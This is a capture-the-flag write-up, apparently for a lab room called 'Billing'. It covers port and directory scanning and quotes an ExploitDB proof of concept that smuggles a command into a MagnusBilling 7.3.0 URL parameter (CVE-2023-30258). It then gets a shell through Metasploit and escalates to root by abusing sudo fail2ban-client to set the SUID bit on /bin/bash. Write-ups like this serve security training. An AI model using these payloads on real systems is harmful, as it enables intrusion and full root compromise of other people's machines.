

# Billing

First look at the text with challenge

<pre>
Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.
</pre>

No bruteforcing

Nmap scan
<pre>nmap -A -p- IP </pre>

We can see mysql and asterisk ports are open.

First we will look at the website.

I didn't find any problem here. SQL injection, creds leak.

<pre>gobuster dir -u http://IP/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r</pre>

We can find a lot of directories, but i found nothing in them

Let's search for public exploits. Since bruteforcing creds ins't in scope of this room.

There is one interesting in [ExploitDB](https://www.exploit-db.com/exploits/52170)
<pre># Exploit Title: MagnusSolution magnusbilling 7.3.0 - Command Injection
# Date: 2024-10-26
# Exploit Author: CodeSecLab
# Vendor Homepage: https://github.com/magnussolution/magnusbilling7
# Software Link: https://github.com/magnussolution/magnusbilling7
# Version: 7.3.0 
# Tested on: Centos
# CVE : CVE-2023-30258

# PoC URL for Command Injection

http://magnusbilling/lib/icepay/icepay.php?democ=testfile; id > /tmp/injected.txt

Result: This PoC attempts to inject the id command.

[Replace Your Domain Name]</pre>

The plus is, it exist in msfconsole.

Let's try that

It works!

let's use basic shell and find the user.txt flag.

<pre>
shell

find / -name user.txt 2>/dev/null
</pre>

And we have the flag!

### Let's escalate our privilages

<pre>sudo -l</pre>

<pre>
Matching Defaults entries for asterisk on ip-10-10-130-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-130-121:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
</pre>

We can see we can run this script `/usr/bin/fail2ban-client` with sudo privilages.

Again we can search if we can abuse this. And yes we can there exist an article to escalate to root. [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/)

<pre>
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
</pre>

We can again locate the `root.txt` file and get it.

<pre>find / -name root.txt 2>/dev/null</pre>